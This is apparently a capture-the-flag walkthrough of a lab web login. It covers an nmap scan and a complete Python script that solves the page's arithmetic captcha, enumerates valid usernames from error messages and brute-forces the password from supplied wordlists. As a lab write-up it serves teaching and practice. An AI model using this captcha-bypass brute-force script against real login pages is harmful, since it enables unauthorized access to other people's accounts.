



## Scanning
We scan the open ports with the **nmap** tool with scripts and software versions.

```
> nmap -sVC -p- --min-rate 5000 10.10.183.73 -Pn -n -oN nmap-10.10.183.73.txt
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-07 22:10 CEST
Nmap scan report for 10.10.183.73
Host is up (0.058s latency).
Not shown: 65534 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    Werkzeug/2.2.2 Python/3.8.10
| http-title: Site doesn't have a title (text/html; charset=utf-8).
|_Requested resource was /login
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.1 404 NOT FOUND
|     Server: Werkzeug/2.2.2 Python/3.8.10
|     Date: Sun, 07 May 2023 20:11:27 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 207
|     Connection: close
|     <!doctype html>
|     <html lang=en>
|     <title>404 Not Found</title>
|     <h1>Not Found</h1>
|     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
|   GetRequest: 
|     HTTP/1.1 302 FOUND
|     Server: Werkzeug/2.2.2 Python/3.8.10
|     Date: Sun, 07 May 2023 20:11:22 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 199
|     Location: /login
|     Connection: close
|     <!doctype html>
|     <html lang=en>
|     <title>Redirecting...</title>
|     <h1>Redirecting...</h1>
|     <p>You should be redirected automatically to the target URL: <a href="/login">/login</a>. If not, click the link.
|   HTTPOptions: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/2.2.2 Python/3.8.10
|     Date: Sun, 07 May 2023 20:11:22 GMT
|     Content-Type: text/html; charset=utf-8
|     Allow: HEAD, GET, OPTIONS
|     Content-Length: 0
|     Connection: close
|   RTSPRequest: 
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN"
|     "http://www.w3.org/TR/html4/strict.dtd">
|     <html>
|     <head>
|     <meta http-equiv="Content-Type" content="text/html;charset=utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 400</p>
|     <p>Message: Bad request version ('RTSP/1.0').</p>
|     <p>Error code explanation: HTTPStatus.BAD_REQUEST - Bad request syntax or unsupported method.</p>
|     </body>
|_    </html>
|_http-server-header: Werkzeug/2.2.2 Python/3.8.10
```

## Enumeration
We access the website, see the Intranet authentication form, try default credentials, but without success.


We download the files, there is a list of users and a list of passwords, this gives us a clue that we will have to use brute force. (*These files are provided in the challenge description.*)

```
> ls
passwords.txt  usernames.txt
                                                                                            
> wc -l *
 1567 passwords.txt
  877 usernames.txt
 2444 total

```
It seems easy, but things get complicated because the application has an arbitrary captcha protection, so we will have to generate a script in Python (or the language you control) to perform brute force and evade the protection.


## Exploitation
In my case, I assemble a simple Python script with a function to calculate the captcha and make the request, the script is divided into two parts:
1. First it detects the existing user.
2. If the user exists, it will start to get the password and as soon as it detects it, it will stop.

#### Script coding

```python
#!/usr/bin/env python3

import requests, re

url = "http://10.10.183.73/login"
burp = {'http': 'http://127.0.0.1:8080'}

def extractCaptcha(html):
    captcha_regex = r'(\d+)\s*([\+\-\*])\s*(\d+)\s*=\s*\?'
    match = re.search(captcha_regex, html)
    if match:
        num1 = int(match.group(1))
        operator = match.group(2)
        num2 = int(match.group(3))
        if operator == '+':
            result = num1 + num2
        elif operator == '-':
            result = num1 - num2
        elif operator == '*':
            result = num1 * num2
        return result
    else:
        return None

if __name__ == '__main__':

	s = requests.session()

	print("[+] Bruteforce starting...")

	result = "does not exist"
	fUsers = open('/home/kali/Documents/Capture/files/usernames.txt', errors='ignore')
	for username in fUsers.readlines():

		postData = {
			'username': username.strip(),
			'password': "test",
			'captcha': result
		}

		r = s.post(url, data=postData, proxies=burp, verify=False)
		result = extractCaptcha(r.text)

		if "does not exist" not in r.text:
			print("\n[+] Found User: " + username.strip())
			break

	
	username = username.strip()

	print("\n[+] Obtain password....")
	fPasswords = open('/home/kali/Documents/Capture/files/passwords.txt', errors='ignore')
	for password in fPasswords.readlines():
		postData = {
		'username': username,
		'password': password.strip(),
		'captcha': result
	}

		r = s.post(url, data=postData, proxies=burp, verify=False)
		result = extractCaptcha(r.text)
		
		if "Error:" not in r.text:
			print("\n[+] Found credentials: " + username.strip() + ":" + password.strip())
			break
```

After a few minutes we will get the credentials:

```
> python3 bruteforce.py
[+] Bruteforce starting...

[+] Found User: xxxxxxxxx

[+] Obtain password....

[+] Found credentials: xxxxxx:********
```
Finally we authenticate with the credentials and we will obtain the flag.

